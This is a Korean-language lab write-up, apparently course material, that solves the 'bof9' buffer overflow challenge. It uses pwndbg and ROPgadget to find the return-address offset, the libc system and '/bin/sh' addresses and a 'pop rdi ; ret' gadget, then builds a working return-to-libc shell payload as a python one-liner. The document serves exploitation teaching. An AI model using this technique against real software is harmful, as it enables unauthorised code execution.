 - `bof9` 를 풀어봅시다. 

## bof9 설명  

1. 버퍼와 리턴 어드레스까지의 거리를 구한다. 

    ```shell
    pwndbg> i r rsp      # AT STARTING VULN FUNCTION
         rsp : 0x7fffffffe628
    pwndbg> nextcall     # UNTIL gets FUNCTION
    pwndbg> i r rdi      # CHECK FIRST ARGUMENT of gets FUNCTION
         rdi : 0x7fffffffe610
    pwndbg> p/d 0x7fffffffe628 - 0x7fffffffe610
         $2 = 24
    ```

2. `system` 함수의 주소값을 찾는다.
    
    ```shell
    pwndbg> p system
         $1 = ... 0x7ffff7a52390 <__libc_system>
    ```
3. `/bin/sh` 문자열의 주소값을 찾는다.

    ```shell
    pwndbg> search /bin/sh
         libc-2.23.so    0x7ffff7b99d57 /* '/bin/sh' */
    ```

4. `pop rdi ; ret` 가젯의 주소값을 찾는다.

    ```shell
    $ ldd bof9           # CHECK library used by bof9
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
         0x0000000000021102 : pop rdi ; ret

    pwndbg> vmmap
        0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    pwndbg> p/x 0x0000000000021102 + 0x7ffff7a0d000
        $1 = 0x7ffff7a2e102
    ```

5. `payload` 를 다음과 같이 제작한다.

    `'A' * (버퍼와 리턴 어드레스까지의 거리)[N 바이트] + (pop rdi ; ret 가젯의 주소)[8 바이트] + (/bin/sh 문자열 주소)[8 바이트] + (system 함수의 주소)[8 바이트]`
    
    ```shell
    payload : [dummy (24)] + ["pop rdi ; ret" (8)] + ["/bin/sh" (8)] + [system (8)]
            $ (python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
    ```

---

## 과제 

